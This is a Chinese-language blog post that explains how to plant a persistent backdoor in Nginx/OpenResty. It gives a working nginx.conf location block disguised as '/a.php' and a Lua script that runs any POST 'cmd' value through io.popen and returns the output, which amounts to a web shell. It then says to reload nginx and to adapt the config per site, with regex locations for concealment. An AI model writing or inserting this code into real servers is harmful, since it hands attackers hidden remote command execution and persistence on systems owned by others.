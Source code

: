 ```yaml
---
layout: post
title: Nginx Lua Backdoor  
tags: [lua文章]
categories: [topic]
---
```

<p>在先知看到了apache利用lua留后门，就想着用nginx也试试</p><p>安装有ngx_lua模块，在openresty和tengine中是默认安装了ngx_lua模块的。</p><p>我这里拿openresty举例，你可以在这里<a href="https://openresty.org/download/openresty-1.15.8.1-win64.zip">下载win平台</a>打包好的。</p><h1 id="步骤">步骤</h1><p>找到conf/nginx.conf，在server块中添加路由</p><div class="highlight"><div class="chroma"><table class="lntable"><tbody><tr><td class="lntd"><pre class="chroma"><code class="language-nginx" data-lang="nginx"><span class="lnt">1
</span><span class="lnt">2
</span><span class="lnt">3
</span><span class="lnt">4
</span></code></pre></td><td class="lntd"><pre class="chroma"><code class="language-nginx" data-lang="nginx"><span class="k">location</span> <span class="p">=</span> <span class="s">/a.php</span> <span class="p">{</span>  
    <span class="kn">default_type</span> <span class="s">&#39;text/plain&#39;</span><span class="p">;</span>  
    <span class="kn">content_by_lua_file</span> <span class="s">lua/backdoor.lua</span><span class="p">;</span>
<span class="p">}</span></code></pre></td></tr></tbody></table></div></div><p>然后创建<code>lua/backdoor.lua</code>脚本，你也可以创建在任意位置，不过要对应上文的<code>content_by_lua_file</code>字段</p><div class="highlight"><div class="chroma"><table class="lntable"><tbody><tr><td class="lntd"><pre class="chroma"><code class="language-lua" data-lang="lua"><span class="lnt">1
</span><span class="lnt">2
</span><span class="lnt">3
</span><span class="lnt">4
</span><span class="lnt">5
</span><span class="lnt">6
</span><span class="lnt">7
</span><span class="lnt">8
</span></code></pre></td><td class="lntd"><pre class="chroma"><code class="language-lua" data-lang="lua"><span class="n">ngx.req</span><span class="p">.</span><span class="n">read_body</span><span class="p">()</span>
<span class="kd">local</span> <span class="n">post_args</span> <span class="o">=</span> <span class="n">ngx.req</span><span class="p">.</span><span class="n">get_post_args</span><span class="p">()</span>
<span class="kd">local</span> <span class="n">cmd</span> <span class="o">=</span> <span class="n">post_args</span><span class="p">[</span><span class="s2">&#34;cmd&#34;</span><span class="p">]</span>
<span class="kr">if</span> <span class="n">cmd</span> <span class="kr">then</span>
    <span class="n">f_ret</span> <span class="o">=</span> <span class="n">io.popen</span><span class="p">(</span><span class="n">cmd</span><span class="p">)</span>
    <span class="kd">local</span> <span class="n">ret</span> <span class="o">=</span> <span class="n">f_ret</span><span class="p">:</span><span class="n">read</span><span class="p">(</span><span class="s2">&#34;*a&#34;</span><span class="p">)</span>
    <span class="n">ngx.say</span><span class="p">(</span><span class="n">string.format</span><span class="p">(</span><span class="s2">&#34;%s&#34;</span><span class="p">,</span> <span class="n">ret</span><span class="p">))</span>
<span class="kr">end</span></code></pre></td></tr></tbody></table></div></div><p>重载nginx</p><div class="highlight"><div class="chroma"><table class="lntable"><tbody><tr><td class="lntd"><pre class="chroma"><code class="language-bash" data-lang="bash"><span class="lnt">1
</span></code></pre></td><td class="lntd"><pre class="chroma"><code class="language-bash" data-lang="bash">nginx -s reload</code></pre></td></tr></tbody></table></div></div><p>浏览器访问</p><p><img src="https://y4er.com/img/uploads/20190901174819.png" alt="20190901174819"/></p><h1 id="文后">文后</h1><p>在实际的环境中，conf文件并不固定，你需要针对不同站点的配置文件去修改。</p><p>而location你可以更灵活一些，毕竟他能用正则表达式�，具体怎么用看你自己咯。</p><p>参考链接</p><ol><li><a href="https://github.com/netxfly/nginx_lua_security">https://github.com/netxfly/nginx_lua_security</a></li><li><a href="https://xz.aliyun.com/t/6088">https://xz.aliyun.com/t/6088</a></li></ol><p><strong>文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。</strong></p>